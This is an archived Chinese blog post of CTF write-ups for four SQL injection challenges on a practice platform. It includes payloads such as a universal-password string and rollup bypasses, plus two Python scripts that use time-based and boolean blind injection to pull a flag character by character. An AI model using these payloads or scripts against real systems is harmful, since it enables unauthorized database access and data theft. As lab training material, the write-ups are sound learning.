









<!--yml
category: 未分类
date: 2022-04-26 14:44:09
-->

# CTF实验吧-WEB专题-1_77458的博客-CSDN博客

> 来源：[https://blog.csdn.net/qq_18661257/article/details/53739543](https://blog.csdn.net/qq_18661257/article/details/53739543)

## **1.登陆一下好吗??**



> 题解

抓住sql语句的性质，构造万能密码，可以使`t'='`来突破题目的限制，原因如下：
一般的验证SQL语句为:
`select * from user where username='xxx' and password='xxx'`
当我们我们的表单提交`t'='`时，SQL语句就变成了
`select * from user where username='t'='' and password='t'=''`
很明显，username=’t’会返回false,然后等于”就返回了true,同样的道理，password也一样
如此就能拿到flag了

* * *

## **2.who are you?**



> 题解

直接写个’，发现没有被过滤，如下图


然后试了试其他的，发现过滤掉了逗号后面，也就是说逗号是不能用，对于题目的提示，说会记录到db里面去，所以后台程序可能用的是insert语句，没有使用select语句，所以寻常的注入不起作用
所以我们通过sleep进行测试

发现对方服务器发回数据的时间间隔相差大概五秒，所以可以使用sleep来进行盲注，这里需要注意的是sleep必须和and绑定，否则不执行语句，因为and的优先级比or高，当有and的时候会执行sleep语句，当没有的时候只会执行or左边的语句

盲注的话，首先我们要判断是否存在flag表以及他的列名也是用上述类似的方法，如果存在直接用python进行延时判断，就可以得到完整的flag

判断是否存在表flag如下图

延时五秒表示存在flag表
然后判断是否存在列名flag，如下图


接下来就是写程序进行盲注了

```
 import urllib2
import time
import requests

url="http://ctf5.shiyanbar.com/web/wonderkun/index.php"

const_str="abcdefghijklmnopqrstuvwxyz0123456789@_.{}-"

flag_str=""
for i in range(1,33):
    isflag = False
    for j in range(0,len(const_str)):
        sql="' or sleep(((select substring(flag from "+str(i)+" for 1) from flag)='"+const_str[j]+"')*5) and '1'='1"
        headers={
            "X-forwarded-for":sql
        }

        last = time.time()
        requests.get(url, headers=headers,timeout=10)
        now = time.time()
        if now - last > 5:
            flag_str += const_str[j]
            isflag = True
            print i,flag_str
            break
    if not isflag :
        print 'error'
        break
print flag_str 
```

* * *

## **3.因缺思汀的绕过**



> 题解

通过查看网页代码源码我们发现了提示source.txt文件，所以毫不犹豫的打开这个文件，后台处理源代码基本就出来了，然后我们就需要思考如何绕过这个源代码设置的障碍。
从代码中我们可以看出，他过滤掉了绝大多数sql注入语句，用数组也会被pass掉，好尴尬呀，怎么办，虽然防护的很好，但是还有几个特别重要的sql语句他没有进行过滤，那就是group by,or,rollup[如果不知道这个语句的，可以百度看看]，终有一疏啊，哈哈哈
这里只提一下rollup的作用，他会根据某一个列进行组合，然后会产生null值，就是让最终的表中有多个null值，然而我们要利用的就是null==null，嘿

我们先根据代码进行一部分处理uname填写如下语句
`' or 1 limit 1--`
或者(–后有空格)
`' or 1 limit 1#`
#(%23url编码不起作用，不知道原因)

可以得到亦可赛艇，接着我们需要让key和pwd相等，用rollup就可以了
构造语句如下即可


* * *

## **4.简单的sql注入之3**



> 题解

通过简单的注入测试可以知道`' or 1--`可以通过，所以存在注入了，但是不管是通过information_schema还是其他途径都无法直接得到flag，所以我们只能用盲注了，哎，思路和博文中who are you基本是一样的，但是不是用延时，因为延时他会返回Don’t，所以我们根据题目的特性，当存在某个之目的时候返回hello我们只要检测返回的页面有没有hello就可以了，代码如下：

```
 import time
import requests

url = "http://ctf5.shiyanbar.com/web/index_3.php?id="

const_str="qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM0123456789@_{}"

flag_str=""

for i in range(1,27):
    isflag = False
    for j in range(0, len(const_str)):
        sql="' or ascii((select substring(flag from "+str(i)+" for 1) from flag))='"+str(ord(const_str[j]));
        res=requests.get(url+sql, timeout=20)

        if res.text.find('Hello') >= 0:
            flag_str+= const_str[j]
            print i, flag_str
            isflag = True
            break
    if not isflag:
        print 'error'
        break
print flag_str 
```

其中用到的ascii是将ASCII字符转换为整数，substring则是求子串了，好像substr也可以用，大家可以自己试试。
在代码中有个猜测代码长度，可以在进行代码盲注之前就判断好，通过二分方法，也可以直接用代码，因为当超过flag字符的时候，数据库会报错，如此通过判断有没有报错自动停止就可以了，这样flag轻松拿到。

呼，只写了四个，每天四个，还有很多要写呀，努力，干巴得！